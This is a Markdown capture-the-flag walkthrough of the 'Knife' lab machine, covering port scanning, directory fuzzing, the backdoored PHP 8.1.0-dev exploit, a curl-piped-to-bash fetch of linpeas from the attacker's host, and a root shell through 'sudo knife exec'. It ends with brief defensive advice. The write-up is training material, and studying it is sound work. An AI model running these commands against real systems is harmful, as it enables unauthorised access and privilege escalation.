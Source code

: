 ```yaml
---
description: >-
  Knife is an easy difficulty Linux machine that features an app which is
  running on a  version of PHP. This vulnerability is leveraged to obtain the
  foothold on the server. A sudo misconfigurat
---
```


# Knife - HTB

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.242 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

```

**What Each Part Does:**

| Command                                     | Explanation                                                                                          |
| ------------------------------------------- | ---------------------------------------------------------------------------------------------------- |
| `nmap -p- --min-rate=1000 -T4 10.10.10.242` | Scans **all 65,535 ports** with a fast rate (`--min-rate=1000`) using **aggressive timing** (`-T4`). |
| `grep ^[0-9]`                               | Filters lines that **start with a number** (i.e., open ports).                                       |
| `cut -d '/' -f 1`                           | Extracts the **port numbers** from the `nmap` output.                                                |
| `tr '\n' ','`                               | **Replaces newlines () with commas (`,`)**, formatting ports as `22,80,443`.                         |
| `sed s/,$//`                                | **Removes the trailing comma (`,`)** from the output.                                                |
| `ports=$(...)`                              | **Stores the result** (formatted list of open ports) into the variable **`$ports`**.                 |

```bash
nmap -p$ports -sV -sC 10.10.10.242

```

**🛠️ What Each Part Does:**

| Command         | Explanation                                                         |
| --------------- | ------------------------------------------------------------------- |
| `nmap -p$ports` | Uses the **discovered ports** from the first command.               |
| `-sV`           | **Service version detection** (e.g., Apache 2.4.51, OpenSSH 8.2p1). |
| `-sC`           | Runs **default `nmap` scripts** (similar to `--script=default`).    |
| `10.10.10.242`  | **Target IP address**.                                              |
| **One liner**   |                                                                     |

```bash
nmap -p$(nmap -p- --min-rate=1000 -T4 10.10.10.242 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) -sV -sC 10.10.10.242

```

Then we fuzz the web directory with ffuf

```bash
 ffuf -w common.txt  -u http://10.129.161.31/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.161.31/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 49ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 49ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 51ms]
index.php               [Status: 200, Size: 5815, Words: 646, Lines: 221, Duration: 49ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 47ms]
:: Progress: [4734/4734] :: Job [1/1] :: 829 req/sec :: Duration: [0:00:05] :: Errors: 0 ::

```

Then, we use `wappalazier`to analyze the technology behind the webapp. We found a vulnerable version of `PHP-8.1.0-DEV`

## 1. Exploit

&#x20;https://github.com/flast101/php-8.1.0-dev-backdoor-rc

#### **🚀 How It Works**

1. **Looks for a special `User-AgentT` header** in the request (notice the typo: `User-AgentT` instead of `User-Agent`).
2. **If the header contains `"zerodium"`**, the backdoor runs **any PHP code** inside that header.
3. **Example Attack Request:**

**Upgrade the shell to fully interactive**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
reset
xterm
```

**Privilege escalation**

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240714-
cd435bb2/linpeas.sh
```

Then, we start a python in the same server:

```bash
sudo python3 -m http.server 80
```

We use curl on the reverse shell and pipe out the output to `bash`

```bash
curl myip/linpeas.sh|bash
```

### **2. What is `knife`?**

* `knife` is the **command-line tool** for managing **Chef servers and clients**.
* It allows administrators to execute commands remotely.

If `knife` is **misconfigured** in `sudo` permissions, an attacker can **abuse it** to gain **root shell access**.

### **3. Breaking Down the Exploit**

`sudo knife exec --exec "exec '/bin/sh -i'"`

#### **🛠️ Step-by-Step Execution**

1. **`sudo knife exec`** → Runs a Ruby script within `knife` (with `sudo` = **root privileges**).
2. **`--exec "exec '/bin/sh -i'"`** → Executes a command **inside a Ruby script**.
3. **`exec '/bin/sh -i'`** → Starts an **interactive shell (`sh`)** with **root privileges**.

### **4. Why This is Privilege Escalation?**

* If a user has **`sudo knife` permissions**, it can execute **arbitrary commands as root**.
* `knife exec` allows running **system commands** in Ruby, which can spawn a shell.
* Since `sudo` runs `knife` **as root**, the shell (`/bin/sh -i`) will also be **root**.

#### **🛠️ Step 2: Execute the Exploit**

`sudo knife exec --exec "exec '/bin/sh -i'"`

* If successful, you'll get a **root shell** (`#` prompt instead of `$`).

#### **🐍 Alternative (If `/bin/sh` is blocked)**

Try **spawning Bash instead**: `sudo knife exec --exec "exec '/bin/bash -i'"`

### **5. How to Defend Against This?**

1. **Restrict `sudo knife` permissions**
   * Remove `NOPASSWD: /usr/bin/knife` from `/etc/sudoers`.
2. **Disable Ruby execution in `knife`**
   * Set restrictions in **Chef server settings**.

## Final thoughts

Knife was an easy machine, definitely the foothold wasn't hard as the same for the privilege escalation.&#x20;
